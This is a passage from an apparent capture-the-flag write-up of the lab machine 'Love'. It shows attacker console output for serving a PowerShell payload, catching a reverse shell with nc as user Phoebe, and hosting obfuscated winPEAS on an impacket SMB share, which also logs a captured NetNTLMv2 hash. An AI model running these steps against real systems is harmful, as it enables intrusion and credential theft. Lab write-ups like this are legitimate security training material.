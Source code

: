```php
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.4.229 - - [02/May/2021 09:53:32] "GET /grem.ps1 HTTP/1.1" 200 -
```

```php
$ rlwrap nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.4.229.
Ncat: Connection from 10.129.4.229:50477.
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```

Now we can grab the `user.txt` on `phoebe`'s Desktop and begin our enumeration to get to SYSTEM. 

# SYSTEM

To enumerate the system we host `winPEASany.exe` from the [obfuscated releases](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases) on a smb share with impacket to not write to disc and exectute in a second step from the target. 

```php
$ sudo impacket-smbserver -smb2support files .
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.4.229,50478)
[*] AUTHENTICATE_MESSAGE (LOVE\Phoebe,LOVE)
[*] User LOVE\Phoebe authenticated successfully
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:cc74af2c8e2810b3d969a65112366120:010100000000000000c19ab6393fd701fd77ff95f64ac71a000000000100100079006d005900640044004500510068000300100079006d00590064004400450051006800020010006b006d0041006800490055006c006900040010006b006d0041006800490055006c0069000700080000c19ab6393fd70106000400020000000800300030000000000000000000000000200000260cd1eb03eae60b159a2fcb767ff7e4a1946e56db826cd54e9a1336727afbce0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320037000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:files)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:files)
[*] Closing down connection (10.129.4.229,50478)
[*] Remaining connections []
```
